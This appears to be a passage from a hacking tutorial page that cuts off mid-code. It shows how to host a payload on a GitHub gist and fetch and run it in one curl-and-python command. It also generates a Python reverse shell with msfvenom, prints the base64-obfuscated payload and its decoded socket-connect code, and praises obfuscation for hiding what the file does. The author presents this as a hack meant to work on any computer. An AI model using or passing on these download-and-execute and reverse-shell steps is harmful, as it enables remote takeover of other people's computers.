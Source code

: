 </p><p id="5f0a42a0-4ebd-4a23-a108-15ca4fabfbf1" class="">We can use GitHub to save the code as a link:</p><figure id="9f6f598a-427c-448a-abf5-abd35f675848"><a href="https://gist.github.com/" class="bookmark source"><div class="bookmark-info"><div class="bookmark-text"><div class="bookmark-title">Discover gists</div><div class="bookmark-description">You can&#x27;t perform that action at this time. You signed in with another tab or window. You signed out in another tab or window. Reload to refresh your session. Reload to refresh your session.</div></div><div class="bookmark-href"><img src="https://gist.github.com/favicon.ico" class="icon bookmark-icon"/>https://gist.github.com/</div></div><img src="https://github.com/opengraph.png" class="bookmark-image"/></a></figure><p id="d305dc6e-c6e9-4950-9148-d5e1bc8ff600" class="">
</p><p id="035e6b8b-f232-4f7d-bb1d-419796166a4e" class="">Once the payload code is pasted in the box. Click save, then click raw. That will provide us with the RAW code. Meaning nothing but the code.</p><p id="e7c8215c-9a5d-4ce9-9a6b-540fec536c36" class="">
</p><p id="79c10f3b-adeb-4260-9501-44433fb53173" class="">Now we can CURL that link and save it to the python file. Mine would look like the following</p><p id="37d82471-d79e-49df-9427-82f314aeda35" class="">
</p><pre id="a6aea6a2-978e-4a31-aa32-311ca9df8fb2" class="code"><code>curl https://gist.githubusercontent.com/lennymelnik/fac58ce5a79fd078048607f843b16a45/raw/ba7296a7f4dd2aae9dc3de1608b48c375b6ac7ee/gistfile1.txt &gt; payload.py</code></pre><p id="8794f0cc-7e06-4146-aeba-8bc35ef1efe0" class="">
</p><p id="bc405acd-cc9a-4200-a5f6-eec2ffe221f9" class="">then in order to run the code we just have to do</p><pre id="8e09d24d-3778-47fc-83f8-7ce85c8bc681" class="code"><code>python payload.py</code></pre><p id="c55130d1-f3f6-4489-9416-71d28446f2d7" class="">
</p><p id="3ac4cb09-57e5-49a3-bc06-6add2b992cab" class="">But lets put it all together</p><p id="f93e304d-2ee7-4f21-a75a-b462bb5a7be6" class="">
</p><pre id="dfe16965-b2eb-4980-8079-3220cc75071a" class="code"><code>curl THERAWLINKHERE &gt; payload.py &amp;&amp; python payload.py</code></pre><p id="53ea04c4-8656-408e-993b-e8172db2b270" class="">As soon as the code is saved to the file, it will run it. </p><p id="b10fd130-4958-4336-93c2-6086c2b6fe77" class="">
</p><h1 id="e9102baf-525c-4c98-bcb8-9f59347f7575" class="">Creating the payload</h1><p id="3e9b0070-c90a-4111-8fcc-0648f7f2666f" class="">Let&#x27;s create the payload. For this you will need to have metasploit installed, I&#x27;ll have a link below for instructions.</p><p id="d59ff9b7-6c87-4206-9974-a824dd919c6c" class="">We will use the msfvenom program in the metaploit framework to make the payload. You can even think of the payload like venom, we get in through a small hole. But then it spreads everywhere and can have a massive impact.</p><p id="8a821482-019a-4dba-9086-2175f728c254" class="">
</p><p id="5ccf261d-f788-40cd-94f6-2adca70bc0ae" class="">I want this hack to work on every computer, so I need a type of file that is run the same regardless of whether it is run on Windows, Mac, or Linux.</p><p id="c22bd2c0-6ee7-4241-9921-507e0688a8a2" class="">
</p><p id="e62528a3-be7e-4ae2-b8ef-b7e6dff41c2d" class="">I settled on Python. Python is a relatively simple programming language that can run on any computer given it has Python installed (We will get around this later).</p><h2 id="e5287ccf-0781-4550-a70b-43b5d3c46d5b" class="">Generate using MSFVENOM</h2><p id="5e8cf9dd-b90e-4c09-be63-9aa2fbd1f0ec" class="">
</p><pre id="5aca6cca-d9e1-4274-9ff3-d1a6ca0c578f" class="code"><code>msfvenom -p cmd/unix/reverse_python LHOST=10.10.10.10 LPORT=4545 -f raw &gt; shell.py</code></pre><p id="64f83504-b3e8-41ac-9d03-ca60ed51b361" class="">
</p><p id="94cc2255-dcc6-4014-a697-52756e3a66a2" class="">This is the command we can run to generate the payload with msfvenom. It makes a python file, that when launched will connect to the IP 10.10.10.10 on port 4545. </p><h2 id="d845cd86-ea16-4bbf-965c-3573b6570595" class="">What is inside the payload?</h2><p id="ca826a3c-bf80-4dee-b76b-2765446a3718" class="">If we open up the <a href="http://shell.py">shell.py</a> file generated by MSFVENOM we see the following.</p><pre id="88f2d794-ca54-4cf3-a4bd-b6554f62177d" class="code"><code>exec(
__import__(&#x27;base64&#x27;).b64decode(
__import__(&#x27;codecs&#x27;).getencoder(&#x27;utf-8&#x27;)(
&#x27;aW1wb3J0IHNvY2tldCx6bGliLGJhc2U2NCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzEwOC40Ni4yMTIuMTYnLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKHpsaWIuZGVjb21wcmVzcyhiYXNlNjQuYjY0ZGVjb2RlKGQpKSx7J3MnOnN9KQo=&#x27;)[0]))</code></pre><p id="318f9091-16f0-448e-b426-42c49d606c49" class="">It looks like gibberish right? Well, thats the point. It changed its form from regular text to something called base64. This is also called obfuscation. This way if someone opens the file, it is not apparent what it does. </p><p id="c444ac6b-081d-4c0a-8575-608da3fe52ce" class="">All those random letters and numbers you see is the actually python code we will need to run.</p><p id="31a39626-7d33-459e-9741-82497cfda75d" class="">The string decoded looks like: (Just run it through a base64 decoder you find on google)</p><pre id="acb92cc2-830e-4abb-9989-d031c56de570" class="code"><code>import socket,zlib,base64,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM)
		s.connect((&#x27;LISTENINGSERVER_IP&#x27;,4444))
		break
	except:
		time.sleep(5)